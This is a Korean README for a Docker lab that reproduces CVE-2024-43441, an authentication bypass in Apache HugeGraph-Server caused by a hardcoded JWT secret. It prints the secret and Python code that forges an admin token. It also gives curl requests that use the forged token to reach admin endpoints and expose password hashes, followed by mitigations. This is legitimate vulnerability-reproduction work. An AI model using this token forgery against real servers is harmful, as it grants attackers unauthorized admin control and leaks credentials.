



# CVE-2024-43441 — Apache HugeGraph-Server JWT 인증 우회 (self-contained 재구성)

**Contributors**

-   [김예준(@yejunkim2000)](https://github.com/yejunkim2000)

> 이 디렉터리는 기존 `HugeGraph/CVE-2024-43441` 환경의 **self-contained 재구성 버전 (2)** 입니다.
> 기존 환경이 미리 빌드된 외부 이미지(`vulhub/hugegraph:1.3.0`)에 의존하는 것과 달리,
> 버전이 고정된 공식 Java 베이스 이미지 위에서 **Apache 공식 릴리스를 직접 내려받아 빌드**하고,
> PoC 컨테이너가 자동 실행되어 **마커 파일**로 결과를 검증하도록 구성했습니다.

<br/>

## 1. 취약점 요약

-   Apache HugeGraph-Server 에서 인증(StandardAuthenticator)을 활성화했지만 `auth.token_secret` 을 설정하지 않으면, 서버가 **소스에 하드코딩된 기본 JWT 시크릿**을 사용해 토큰을 서명·검증합니다.
-   하드코딩된 시크릿 값: `FXQXbJtbCLxODc6tGci732pkH1cyf8Qg`
-   이 값은 공개되어 있으므로, 원격의 비인증 공격자가 동일한 시크릿으로 **admin 사용자의 JWT 를 위조**하여 인증을 완전히 우회하고, 관리자 권한으로 임의의 API(그래프 조작, 사용자 관리 등)를 호출할 수 있습니다.
-   영향 버전: **HugeGraph 1.0.0 ~ 1.3.0** (1.5.0 에서 수정)
-   CVSS 3.1 Base Score: **9.8 (Critical)** — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

**참고 자료**

-   https://nvd.nist.gov/vuln/detail/CVE-2024-43441
-   https://lists.apache.org/thread/o5ohcnhwlxvzvz6nx6l0d8bwczfxgs79 (Apache 공식 공지)
-   https://github.com/apache/incubator-hugegraph/pull/2411 (수정 PR — 시크릿 랜덤 생성)

<br/>

## 2. 취약점 원리

HugeGraph 의 JWT 토큰 생성/검증은 `TokenGenerator` 가 담당하며, 사용하는 서명 키는 설정값 `auth.token_secret` 입니다. 그런데 이 값이 비어 있을 때 다음과 같이 **하드코딩된 상수**로 대체됩니다.

```java
// org.apache.hugegraph.config.ServerOptions (요지)
public static final ConfigOption<String> AUTH_TOKEN_SECRET =
    new ConfigOption<>(
        "auth.token_secret",
        "Secret key of HS256 algorithm.",
        disallowEmpty(),
        "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg"   // ← 기본값이 하드코딩되어 있음
    );
```

`enable-auth.sh` 로 인증을 켜면 `rest-server.properties` 에 `auth.authenticator` 만 추가될 뿐 `auth.token_secret` 은 설정되지 않으므로, 운영자가 이를 명시적으로 지정하지 않는 한 위 기본 시크릿이 그대로 사용됩니다.

공격자는 이 시크릿으로 아래 클레임을 담은 HS256 JWT 를 만들면 됩니다.

```json
{ "user_name": "admin", "user_id": "-30:admin", "exp": 9739523483 }
```

이 토큰을 `Authorization: Bearer <token>` 헤더로 보내면 서버는 정상 admin 토큰으로 인식하여 인증을 통과시킵니다.

<br/>

## 3. 환경 구성

### 디렉터리 구조

```
CVE-2024-43441_2/
├── docker-compose.yml       # hugegraph(취약 서버) + poc(자동 실행 익스플로잇)
├── README.md
├── README.assets/           # 실제 서버(localhost:8080)를 브라우저로 띄워 캡처한 스크린샷
│   ├── 01_env_up.png
│   ├── 02_auth_bypass.png
│   └── 03_admin_leak.png
├── victim/                  # 취약 서버(HugeGraph) 빌드 컨텍스트
│   ├── Dockerfile           # eclipse-temurin:11-jre + HugeGraph 1.3.0 공식 릴리스 직접 설치
│   ├── docker-entrypoint.sh # HugeGraph 공식 도커 entrypoint (PASSWORD 지정 시 auth 활성화)
│   └── scripts/             # 공식 도커 스크립트(storage 감지용 groovy)
│       ├── remote-connect.groovy
│       └── detect-storage.groovy
├── poc/
│   └── poc.py               # 표준 라이브러리만으로 JWT 위조 + 인증 우회 검증
└── result/                  # 실행 시 마커 파일(AUTH_BYPASS_SUCCESS)이 생성됨
```

### 구성 요소

-   **`hugegraph` 서비스** — `eclipse-temurin:11-jre-jammy` 위에 Apache 아카이브에서 `apache-hugegraph-incubating-1.3.0.tar.gz` 를 직접 내려받아 설치합니다. `docker-compose.yml` 에서 `PASSWORD` 환경변수를 지정하므로, 공식 entrypoint 가 `bin/enable-auth.sh` 를 실행해 **StandardAuthenticator(JWT 인증)를 활성화**합니다. (단, `auth.token_secret` 은 설정하지 않아 하드코딩 시크릿이 사용됨 = 취약 조건)
-   **`poc` 서비스** — `python:3.11-slim` 이 환경이 뜨면 자동으로 `poc.py` 를 실행합니다. 외부 라이브러리 없이 표준 라이브러리(`hmac`/`hashlib`/`urllib`)만으로 JWT 를 위조하여 인증 우회를 검증하고, 성공 시 `result/AUTH_BYPASS_SUCCESS` 마커를 남깁니다.

> **JDK 11 관련 메모**: HugeGraph 인증 프록시는 `--add-exports=java.base/jdk.internal.reflect=ALL-UNNAMED` 가 필요합니다. 릴리스 스크립트도 이를 추가하지만, 그 판단이 셸 로케일에 의존하는 버그가 있어(UTF-8 로케일에서 버전 비교 실패) `Dockerfile` 에서 `JAVA_TOOL_OPTIONS` 로 확실히 주입합니다.

### 실행 (복붙 그대로)

```bash
docker compose up --build --abort-on-container-exit
```

한 번의 명령으로 이미지 빌드 → HugeGraph(auth) 기동 → PoC 자동 실행 → 결과 출력까지 진행되며, PoC 컨테이너가 종료되면 전체가 정리됩니다.



<br/>

## 4. 취약 조건

다음 조건이 모두 성립할 때 비인증 원격 공격자가 인증을 우회할 수 있습니다.

1.  **취약 버전** — HugeGraph 1.0.0 ~ 1.3.0.
2.  **인증 활성화** — StandardAuthenticator 가 켜져 있음(`PASSWORD` 지정 → `enable-auth.sh`). 인증이 꺼져 있으면 애초에 토큰이 필요 없고, 켜져 있어야 “우회” 대상이 됩니다.
3.  **`auth.token_secret` 미설정** — 운영자가 별도로 시크릿을 지정하지 않아 하드코딩 기본값이 사용됨. (공식 기본 설치가 이 상태)
4.  **REST 포트(8080) 접근 가능** — 공격자가 서버에 도달 가능.

<br/>

## 5. 재현 절차

### (1) 익명 접근이 차단됨을 확인 (인증이 켜진 상태)

```bash
curl -s -o /dev/null -w "%{http_code}\n" http://127.0.0.1:8080/graphs
# -> 401 (Authentication credentials are required)
```

### (2) 하드코딩 시크릿으로 admin JWT 위조

`poc/poc.py` 가 표준 라이브러리만으로 아래를 수행합니다.

-   header `{"alg":"HS256","typ":"JWT"}`, payload `{"user_name":"admin","user_id":"-30:admin","exp":9739523483}`
-   서명: `HMAC-SHA256(secret = "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg")`

### (3) 위조 토큰으로 인증 우회

```bash
TOKEN="<위조한 JWT>"
curl -s -H "Authorization: Bearer $TOKEN" http://127.0.0.1:8080/graphs
# -> 200 {"graphs":["hugegraph"]}

curl -s -H "Authorization: Bearer $TOKEN" http://127.0.0.1:8080/graphs/hugegraph/auth/users
# -> 200, admin 계정 정보 + bcrypt 비밀번호 해시까지 노출
```

익명 요청은 401 로 차단되지만, 위조한 admin JWT 로는 200 이 반환됩니다.



admin 전용 사용자 목록 엔드포인트까지 접근되어, admin 계정 정보와 bcrypt 비밀번호 해시가 노출됩니다.



### (4) 마커 파일로 검증

PoC 컨테이너는 `익명=401` 이고 `위조 토큰=200` 일 때에만 `result/AUTH_BYPASS_SUCCESS` 를 생성합니다.

```bash
cat result/AUTH_BYPASS_SUCCESS   # CVE-2024-43441 auth bypass verified
cat result/poc_result.txt        # 전체 실행 로그
```

<br/>

## 6. PoC 코드 (핵심)

표준 라이브러리만으로 HS256 JWT 를 생성하는 부분입니다. (전체 코드는 [`poc/poc.py`](poc/poc.py))

```python
import base64, hmac, hashlib, json

HARDCODED_SECRET = b"FXQXbJtbCLxODc6tGci732pkH1cyf8Qg"

def b64url(data: bytes) -> str:
    return base64.urlsafe_b64encode(data).rstrip(b"=").decode()

def forge_jwt(secret: bytes, claims: dict) -> str:
    header = {"alg": "HS256", "typ": "JWT"}
    seg = b64url(json.dumps(header, separators=(",", ":")).encode()) + "." + \
          b64url(json.dumps(claims, separators=(",", ":")).encode())
    sig = hmac.new(secret, seg.encode(), hashlib.sha256).digest()
    return seg + "." + b64url(sig)

token = forge_jwt(HARDCODED_SECRET,
                  {"user_name": "admin", "user_id": "-30:admin", "exp": 9739523483})
```

<br/>

## 7. 실행 결과

> 아래는 실제 실행 중인 서버(`http://localhost:8080`)를 브라우저로 띄워, 하드코딩 시크릿으로 위조한 JWT 로 직접 요청을 보내 캡처한 라이브 결과입니다.

| 단계 | 스크린샷 | 결과 |
|---|---|---|
| 서버 상태 | `01_env_up.png` | 실제 서버 응답 — HugeGraph **1.3.0** (`GET /` → 200) |
| 인증 우회 | `02_auth_bypass.png` | 익명 `GET /graphs` = **401(차단)**, 위조 JWT = **200(우회 성공)** |
| 권한 상승 | `03_admin_leak.png` | 위조 토큰으로 `GET /graphs/hugegraph/auth/users` = **200** — admin 계정·**bcrypt 비밀번호 해시 유출** |

> `docker compose up --build` 로 실행하면 PoC 컨테이너가 동일 검증을 자동 수행하고 `result/AUTH_BYPASS_SUCCESS` 마커도 생성합니다.

**재현성**: 소스 파일만 새 디렉터리로 복사한 깨끗한 상태에서 `docker compose up --build --abort-on-container-exit` 단일 명령으로 위 결과가 결정적으로 재현됨을 확인했습니다.

<br/>

## 8. 대응 방안

1.  **패치 적용(근본 대응)** — HugeGraph 를 **1.5.0 이상**으로 업그레이드합니다. 수정 버전은 `auth.token_secret` 의 하드코딩 기본값을 제거하고, 미설정 시 **매 기동마다 안전한 랜덤 시크릿을 생성**하도록 변경되었습니다.
2.  **`auth.token_secret` 명시 설정** — 부득이 구버전을 유지해야 한다면, `conf/rest-server.properties` 의 `auth.token_secret` 에 충분히 길고 예측 불가능한 값을 반드시 지정합니다.
3.  **REST 포트 노출 최소화** — 8080 을 외부에 직접 노출하지 말고 방화벽/보안그룹으로 접근을 제한합니다.
4.  **시크릿 형상관리 분리** — 시크릿을 소스/이미지에 포함하지 말고 환경변수·시크릿 매니저로 주입합니다.

<br/>

## 9. 위험도(CVSS 3.1)

| 항목 | 값 | 설명 |
|---|---|---|
| Attack Vector (AV) | Network | 원격 REST(8080) 로 트리거 |
| Attack Complexity (AC) | Low | 공개된 하드코딩 시크릿, 단일 요청 |
| Privileges Required (PR) | None | 인증 불필요(우회 대상) |
| User Interaction (UI) | None | 사용자 개입 불필요 |
| Confidentiality/Integrity/Availability | High/High/High | 관리자 권한 획득 → 데이터·계정 전면 통제 |
| **Base Score** | **9.8 (Critical)** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
